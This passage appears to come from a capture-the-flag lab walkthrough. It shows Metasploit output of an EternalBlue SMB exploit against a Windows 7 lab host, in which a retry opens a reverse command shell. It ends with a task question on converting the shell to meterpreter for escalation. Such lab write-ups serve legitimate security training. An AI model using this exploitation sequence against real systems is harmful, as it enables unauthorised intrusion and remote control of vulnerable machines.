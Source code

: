 ```
[*] 10.10.172.76:445 - Sending all but last fragment of exploit packet
[*] 10.10.172.76:445 - Starting non-paged pool grooming
[+] 10.10.172.76:445 - Sending SMBv2 buffers
[+] 10.10.172.76:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.172.76:445 - Sending final SMBv2 buffers.
[*] 10.10.172.76:445 - Sending last fragment of exploit packet!
[*] 10.10.172.76:445 - Receiving response from exploit packet
[+] 10.10.172.76:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.172.76:445 - Sending egg to corrupted connection.
[*] 10.10.172.76:445 - Triggering free of corrupted buffer.
[-] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.172.76:445 - Connecting to target for exploitation.
[+] 10.10.172.76:445 - Connection established for exploitation.
[+] 10.10.172.76:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.172.76:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.172.76:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.172.76:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.172.76:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.172.76:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.172.76:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.172.76:445 - Sending all but last fragment of exploit packet
[*] 10.10.172.76:445 - Starting non-paged pool grooming
[+] 10.10.172.76:445 - Sending SMBv2 buffers
[+] 10.10.172.76:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.172.76:445 - Sending final SMBv2 buffers.
[*] 10.10.172.76:445 - Sending last fragment of exploit packet!
[*] 10.10.172.76:445 - Receiving response from exploit packet
[+] 10.10.172.76:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.172.76:445 - Sending egg to corrupted connection.
[*] 10.10.172.76:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.9.19.3:4444 -> 10.10.172.76:49207) at 2020-05-22 19:51:18 +0700
[+] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.172.76:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

### Task 3 Escalate

#### #1 If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

